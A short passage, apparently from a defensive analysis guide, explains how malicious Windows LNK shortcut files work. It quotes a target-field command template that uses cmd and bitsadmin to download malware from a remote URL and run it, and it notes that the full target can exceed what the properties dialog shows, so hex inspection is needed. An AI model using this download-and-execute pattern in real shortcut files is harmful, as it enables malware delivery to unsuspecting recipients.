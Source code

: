<img title="LNK" src="../assets/lnk.png" style="display:block; margin-right:auto; margin-left:auto; padding-bottom:20px;">

As can be seen in the image, LNK files have a target command line. When an attacker types **" 'cmd file path' /C bitsadmin /transfer downloadFile /download /priority normal 'Malware download URL' 'Target File Path' & start 'Target File Path'" ** into the target section of the LNK file sent to you, the attacker  can download and run a malware from the remote server.
The place we need to look here is the **" Target"** line of the LNK file. The point to be considered is that; A maximum of 255 characters appears in the target section of the settings section, but the target part here can be up to 4096 characters. At this point, it is necessary to look at the hexadecimal values of the file.

<img title="LNK" src="../assets/lnk-cmd.png" style="display:block; margin-right:auto; margin-left:auto; padding-bottom:20px;">

[3]

---